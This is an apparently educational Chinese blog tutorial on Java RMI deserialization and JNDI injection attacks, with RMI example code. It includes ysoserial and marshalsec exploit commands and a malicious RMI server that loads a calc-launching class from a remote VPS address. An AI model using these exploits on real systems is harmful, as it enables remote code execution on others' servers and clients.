









## 前言


RPC全称为远程过程调用，通俗点讲就是可以在不同的设备上互联调用其方法，比如client可以远程调用server上的方法。而RMI是jdk中RPC的一种实现方式，通过RMI可以轻松的实现RPC而不必理会这其中复杂的调用过程。由于RMI的实现过程调用了java的序列化和反序列化，如果server端存在反序列化的利用条件，我们可在client端实现RMI反序列化攻击，从而在server端完成RCE。


## RMI介绍


RMI，是Remote Method Invocation（远程方法调用）的缩写，即在一个JVM中java程序调用在另一个远程JVM中运行的java程序，这个远程JVM既可以在同一台实体机上，也可以在不同的实体机上，两者之间通过网络进行通信。java RMI封装了远程调用的实现细节，进行简单的配置之后，就可以如同调用本地方法一样，比较透明地调用远端方法。


RMI 可以使用以下协议实现：

- Java Remote Method Protocol (JRMP)：专门为 RMI 设计的协议
- Internet Inter-ORB Protocol (IIOP) ：基于 CORBA 实现的跨语言协议

RMI包括以下三个部分：

- Registry: 提供服务注册与服务获取。即Server端向Registry注册服务，比如地址、端口等一些信息，Client端从Registry获取远程对象的一些信息，如地址、端口等，然后进行远程调用。
- Server: 远程方法的提供者，并向Registry注册自身提供的服务。
- Client: 远程方法的消费者，从Registry获取远程方法的相关信息并且调用。

> 在低版本的JDK中，Server与Registry是可以不在一台服务器上的，而在高版本的JDK中，Server与Registry只能在一台服务器上，否则无法注册成功。


RMI的工作原理如下图：





其实我们无需理会这复杂的过程，只需知道RMI如何使用即可。

1. 要实现RMI，服务器和客户端必须共享同一个接口，且此接口必须派生自`java.rmi.Remote`，并在每个方法声明抛出`RemoteException`
2. 服务端的实现类需要继承`UnicastRemoteObject`
3. RMI服务端通过`LocateRegistry.createRegistry`创建Registry，并通过`Naming.rebind`将远程对象绑定到Registry
4. RMI客户端通过`Naming.lookup`即可调用服务端的方法

## RMI示例


定义HelloInterface接口


```java
package com.rmi;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface HelloInterface extends Remote {
    String hello(String age) throws RemoteException;
}

```


实现HelloInterface接口


```java
package com.rmi;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class HelloImp extends UnicastRemoteObject implements HelloInterface{
    protected HelloImp() throws RemoteException {
    }

    @Override
    public String hello(String age) throws RemoteException {
        return "hello" +" " + age;
    }
}

```


RMI服务端


```java
package com.rmi;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServer {
    public static void main(String[] args) {
        try {
            HelloInterface h  = new HelloImp(); // 创建远程对象HelloImp对象实例
            LocateRegistry.createRegistry(1099); // 获取RMI服务注册器
            Naming.rebind("rmi://localhost:1099/hello",h); // 绑定远程对象HelloImp到RMI服务注册器
            System.out.println("RMIServer start successful");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```


RMI客户端


```java
package com.rmi;

import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;

public class RMIclient {
    public static void main(String[] args){
        try {
            HelloInterface h = (HelloInterface) Naming.lookup("rmi://localhost:1099/hello"); // 寻找RMI实例远程对象
            System.out.println(h.hello("23岁"));
        }catch (MalformedURLException e) {
            System.out.println("url格式异常");
        } catch (RemoteException e) {
            System.out.println("创建对象异常");
        } catch (NotBoundException e) {
            System.out.println("对象未绑定");
        }
    }
}

```


运行结果：





## RMI的安全性


在远程方法调用过程中，参数需要先序列化，从 local JVM 发送到 remote JVM，然后在 remote JVM 上反序列化，执行完后，将结果序列化，发送回 local JVM，因此可能会存在反序列化漏洞。


下图是RMI安全性的一张全景图：





### 攻击注册中心


当注册中心上可用的反序列化链时，就可以利于反序列化来攻击注册中心，这里使用ysoserial的`RMIRegistryExploit`来攻击。


> 此种攻击方式对jdk版本有要求：jdk7u131或jdk8u121之前。


可以直接只有vulhub配置好的靶场来打：


[rmi-registry-bind-deserialization](https://github.com/vulhub/vulhub/tree/master/java/rmi-registry-bind-deserialization)


我这里就直接编写代码了：


代码和上面的示例代码其实一样，为了测试攻击，这里引入了`commons-collections`的`3.2.1`版本.





rmiserver代码：


```java
package com.rmi;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {

        try{
            String name = "Hello";
            HelloTestImpl h = new HelloTestImpl();
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();
            registry.rebind(name, h);
            System.out.println("rmi server runing");
        }catch (Exception e){
            e.printStackTrace();
        }

    }
}

```


然后使用ysoserial的cc链攻击即可：





自jdk8u121起，Registry对反序列化的类做了白名单限制


```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}

```


另外攻击注册中心在_`jdk<jdk8u232b09`_版本中也可以实现，利用了`UnicastRef`去bypass,具体原理可以看下这篇文章：[一次攻击内网rmi服务的深思](http://www.codersec.net/2018/09/%E4%B8%80%E6%AC%A1%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91rmi%E6%9C%8D%E5%8A%A1%E7%9A%84%E6%B7%B1%E6%80%9D/)。


> 注意：只有jdk >=8u121，<8u231 时，才可以使用ysoserial中的JRMPClient绕过白名单来打。


具体利用可参考：[CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞](http://www.code2sec.com/cve-2017-3241-java-rmi-registrybindfan-xu-lie-hua-lou-dong.html)


vulhub上也有对应的靶场：[rmi-registry-bind-deserialization-bypass](https://github.com/vulhub/vulhub/tree/master/java/rmi-registry-bind-deserialization-bypass)


此靶场用的jdk版本为：jdk8u131


对于 jdk>=8u231，<8u241 版本时，可以使用改造过后的ysoserial来打，这里使用了[https://github.com/bit4woo/ysoserial/tree/bit4woo](https://github.com/bit4woo/ysoserial/tree/bit4woo).


```java
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections5 "cmd /c calc"

```


```java
java -cp ysoserial-0.0.6-bit4woo-all.jar ysoserial.exploit.RMIRegistryExploitJdk8u231 127.0.0.1 1099 JRMPClient2 127.0.0.1:9999

```


_本地成功在jdk1.8231版本上复现成功：_





### 攻击RMI服务端


当攻击服务端时可以使用工具`BaRMIe`去寻找可受攻击的RMI服务，比如可能提供了文件上传等危险功能，一种就跟普通web测试差不多的很简单的感觉。
但实际上我们要调用一个存在危险功能的RMI服务端需要知道：RMI对象a、方法b、参数c，即a.b(c)
自然会认为我们作为RMI客户端向RMI注册端查询有哪些RMI服务端，然后再去RMI服务端查询接口和参数，再根据返回的接口和参数，构造利用就好了。





貌似这个工具无法有效检测反序列化链。


BaRMIe实际上探测利用开放的RMI服务，根本只是攻击者自己知道有哪些组件会提供危险的RMI服务。然后根据class路径去判断对面是否使用了该组件，如果用了就尝试打一打看看成不成功。
假如对面提供了我们一个不认识的RMI服务，我们是没有能力攻击的。


就如之前提到的一样：因为我们没有RMI服务对象的接口（方法+参数）。就算对面开放了一个Class名字可疑的服务，我们也没有办法去正确调用它。


可见这种理论存在但是不怎么被人讨论的攻击方法总是有些鸡肋。


同样的在ysoserial中提供了`ysoserial.exploit.JRMPClient`可以直接攻击RMIServer，但是前提是服务端需存在可以利用的反序列化链，并且jdk版本_`<=1.8111`_。





_在jdk1.8121及之后的版本中由于JEP290的存在，导致ysoserial攻击失效，那么如何绕过呢，_[这篇文章](https://xz.aliyun.com/t/7932)给出了几个不错的思路.


### 攻击RMI客户端


**第一种方法：**
当客户端存在godget时，利用ysoserial开启JRMPListener，让客户端去连也是可以触发的。


**第二种方法：**
理想情况下的攻击方式：


定义IHello接口


```java
package com.rmitest.inter;

import com.rmitest.impl.Person;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IHello extends Remote {
    public Person sayHello()throws RemoteException;
}

```


实现IHello接口


```java
package com.rmitest.impl;

import com.rmitest.inter.IHello;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class HelloImpl extends UnicastRemoteObject implements IHello {

    public HelloImpl() throws RemoteException {

    }

    @Override
    public Person sayHello() {
        Runtime.getRuntime().exec("cmd /c calc");
        return;
    }
}

```


rmiclient代码


```java
public class RMICustomer {
    public static void main(String[] args) throws RemoteException, NotBoundException {
        IHello hello = (IHello) LocateRegistry.getRegistry("127.0.0.1", 1099).lookup("Hello");
        Person person = hello.sayHello();

    }
}

```


这样客户端就可以完成命令执行了，但是现实中不可能遇到上述代码中的情况。那么有没有一种特别通用的利用方式呢？让客户端在lookup一个远程方法的时候能直接造成RCE，事实证明是有的。


这里就要讲到一个特别的类javax.naming.Reference，该类的作用就是记录一个远程对象的位置，然后服务端将实例化好的Reference类通过bind方法注册到rmiregistry上，然后客户端通过rmiregistry返回的Stub信息找到服务端并调用该Reference对象，Reference对象通过URLClassloader将记录在Reference对象中的Class从远程地址上加载到本地，从而触发恶意类中的静态代码块，导致RCE。


**上面说的也就是JDNI注入**，关于JNDI的详细介绍可参考：[深入理解JNDI注入与Java反序列化漏洞利用](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)


```text
本次实验整个流程如下：

- 首先开启 HTTP 服务器，并将我们的恶意类放在目录下
- 开启恶意 RMI 服务器
- 攻击者控制uri参数为上一步开启的恶意 RMI 服务器地址
- 恶意RMI服务器返回 ReferenceWrapper 类
- 目标（Client) 在执行lookup操作的时候，在decodeObject 中将ReferenceWrapper 变为 Reference 类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类），在实例化时触发静态代码片段中的恶意代码。

```


SERVER端代码：


```java
package com.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class SERVER {

    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {

        Registry registry = LocateRegistry.createRegistry(1099);

        String url = "http://1.14.47.152:8081/"; //vps地址，存放恶意类用于远程加载
        // Reference需要传入三个参数 (className,factory,factoryLocation)
        // 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
        Reference reference = new Reference("ExecTest", "ExecTest", url);

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);

        registry.bind("evil", referenceWrapper);

    }
}

```


CLIENT端代码：


```java
package com.rmi;

import javax.naming.Context;
import javax.naming.InitialContext;

//受害者
public class CLIENT {
    public static void main(String[] args)throws Exception{
        //由于我使用的是jdk8u111版本，所以需要手动指定trustURLCodebase为true
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String uri = "rmi://127.0.0.1:1099/evil";//假如这个是攻击者可控的。
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}

```


恶意类,使用javac编译后放置于远程vps上


```java
import java.io.IOException;

public class ExecTest {
    public ExecTest() {
    }
    static {
        try {
            Runtime.getRuntime().exec("cmd /c calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}

```


上述代码攻击的时客户端，当然也可以攻击服务端。


但是JNDI注入利用条件较为严格：


```text
JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

```


也就是说jdk8u191版本之后基本无法利用JNDI注入了。


当然上述过程利用工具也可以实现，marshalsec这个工具已经内置了RMI和LDAP服务，可以很方便的开启远程服务用于加载恶意类。工具地址：[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)


用法：


```java
java -cp marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]

```


```java
java -cp marshalsec-0.0.3-all.jar marshalsec.jndi.RMIRefServer http://1.14.47.152:8081/#ExecTest 1099

```


同样可以触发漏洞





了解过fastjson反序列化的同学知道其触发原理和上面的其实一样。


## 最后


谈到安全性，很多文章中都提到了JEP290,他给反序列化做了个安全检验，用于过滤输入的序列化数据，缓解反序列化攻击。


```text
1、提供一个限制反序列化类的机制，白名单或者黑名单。
2、限制反序列化的深度和复杂度。
3、为RMI远程调用对象提供了一个验证类的机制。
4、定义一个可配置的过滤机制，比如可以通过配置properties文件的形式来定义过滤器。

```


JEP290本来是JDK9的新特性，但为了安全性之类的理由还将其移植到了早期版本中，JDK9以下的适用版本为：


```text
Java™ SE Development Kit 8, Update 121 (JDK 8u121)
Java™ SE Development Kit 7, Update 131 (JDK 7u131)
Java™ SE Development Kit 6, Update 141 (JDK 6u141)

```


对于反序列化的对抗还需深入了解JEP290，学习bypass方法。


## 参考

- [CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞](http://www.code2sec.com/cve-2017-3241-java-rmi-registrybindfan-xu-lie-hua-lou-dong.html)
- [反序列化中的JRMP末路](https://aluvion.gitee.io/2021/10/21/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%AD%E7%9A%84JRMP%E6%9C%AB%E8%B7%AF/)
- [一次攻击内网rmi服务的深思](http://www.codersec.net/2018/09/%E4%B8%80%E6%AC%A1%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91rmi%E6%9C%8D%E5%8A%A1%E7%9A%84%E6%B7%B1%E6%80%9D/)
- [JRMPListener && JRMPClient使用小记](https://tiaotiaolong.net/2020/04/12/JRMPListener-&&-JRMPClient%E4%BD%BF%E7%94%A8%E5%B0%8F%E8%AE%B0/)
- [_Java安全-RMIJNDI注入_](https://reader-l.github.io/2021/01/26/Java%E5%AE%89%E5%85%A8-RMI-JNDI%E6%B3%A8%E5%85%A5/)
- [如何绕过高版本JDK的限制进行JNDI注入利用](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)
- [Java 安全-RMI-学习总结](https://paper.seebug.org/1251/)
- [Java 反序列化过程中 RMI JRMP 以及 JNDI 多种利用方式详解](https://paper.seebug.org/1420)
- [针对RMI服务的九重攻击 - 上](https://xz.aliyun.com/t/7930)
- [针对RMI服务的九重攻击 - 下](https://xz.aliyun.com/t/7932)
